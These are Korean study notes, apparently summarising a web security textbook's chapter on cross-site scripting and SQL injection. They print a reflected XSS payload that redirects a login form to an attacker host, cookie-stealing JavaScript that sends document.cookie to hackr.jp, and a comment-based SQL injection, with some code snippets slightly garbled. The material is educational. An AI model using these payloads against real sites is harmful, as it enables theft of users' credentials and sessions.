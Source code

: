 ### 11.2 크로스 사이트 스크립팅
- 크로스 사이트 스크립팅(XSS)은 취약성이 있는 웹사이트를 방문한 사용자의 브라우저에서 부정한 HTML 태그나 JavaScript 등을 동작시키는 공격
- 동적으로 HTML을 생성하는 부분에서 취약성이 발생할 수 있다.
- 수동적 공격

![](https://3.bp.blogspot.com/-h8DgNsx8zhY/WCHPxBD4txI/AAAAAAAAC18/aMZJ85_yJU0vMYl8puDJZCDjJtlVYenFwCLcB/s1600/%25E1%2584%2589%25E1%2585%25B3%25E1%2584%258F%25E1%2585%25B3%25E1%2584%2585%25E1%2585%25B5%25E1%2586%25AB%25E1%2584%2589%25E1%2585%25A3%25E1%2586%25BA%2B2016-11-08%2B%25E1%2584%258B%25E1%2585%25A9%25E1%2584%2592%25E1%2585%25AE%2B10.14.22.png)

> 예시) 폼에 `<script>` 태그를 사용한 문자열을 입력하여 공격
**XSS는 공격자가 함정을 준비하는 수동적 공격**
- 예) URL의 쿼리에 ID를 지정함으로써 폼 내에 문자열을 보완하는 기능이 있는 웹사이트
  ```
  http://example.jp/login?ID=yama
  ```
  여기에 취약성이 있다고 파악한 공격자는 다음과 같은 함정을 작성한 후 교모한 내용의 메일이나 함정을 설치한 웹 페이지를 준비해서 유저가 URL을 클릭하도록 유도한다.
  ```javascript
  http://example.jp/login?ID="><script>var+f=document=>getElementById("login");+f.action="http://hackkr.jp/pwget";+f.method==>"get";</script><span+s="
  ```
  유저가 폼에 ID와 패스워드를 입력하면 공격자의 사이트로 송신되게 하여 빼앗을 수 있다.

#### 유저의 쿠키를 빼앗는 공격
- 폼에 함정을 설치하는 것 외에도 아래와 같은 스크립트를 추가하여 유저의 쿠키를 XSS로 빼앗을 수 있다.
  ```javascript
  <script src="http://hackr.jp/xss.js></script>
  ```
- 이 스크립트가 가리키는 http://hackr.jp/xss.js에는 아래의 JavaScript가 코딩되어 이다.
  ```javascript
  var content = escape(document.cookie);
  document.write("<img src="http://hackr.jp/?");
  document.write(content);
  document.write(">");
  ```
- XSS 취약성이 있는 웹 애플리케이션에서 JavaScript가 실행되면 해당 웹 애플리케이션의 도메인의 쿠키 정보에 액세스된다. 그리고 이 저보가 웹 사이트에 보내지고 액세스 로그에 기록된다.

### 11.2.2 SQL 인젝션
#### 부정한 SQL을 실행하는 SQL 인젝션
- SQL 인젝션 : 웹 애플리케이션을 이용하고 있는 데이터베이스에 SQL을 부정하게 실행하는 공격
- 커다란 위협을 일으킬 수 있는 취약성

**SQL 인젝션의 공격 사례**
- 웹 사이트에 [우에노 센]을 입력했을 때 이 값은 웹 애플리케이션 내부에서 SQL문에 전달되며 다음과 같이 구성된다.
  ```sql
  SELECT * FROM bookTbl WHERE author='우에노 센' and flag = 1;
  ```
- 조금 전 쿼리를 "우에노 센'--"으로 변경한다.
- 그럼 SQL문은 다음과 같이 구성된다.
  ```sql
  SELECT * FROM bookTbl WHERE author='우에노 센' --' and flag = 1;
  ```
- SQL문에서 "--" 이후는 주석으로 처리된다. 즉, `and flag=1`이라는 조건이 무시된다.

#### SQL 인젝션은 SQL 문장의 구문을 파괴하는 공격
- SQL 인젝션은 공격자에 의해 개발자가 의도하지 않는 형태로 SQL 문장이 변경되어 구조가 파괴되는 공격
- 이 책의 에에서는 절판 책이 표시되는 문제만 있었지만, 실제로 SQL 인젝션이 발생한 경우, 유저 정보나 결제 정보 등의 다른 테이블을 부정하게 열람하거나 변조되는 등의 피해가 발생할 수 있다.
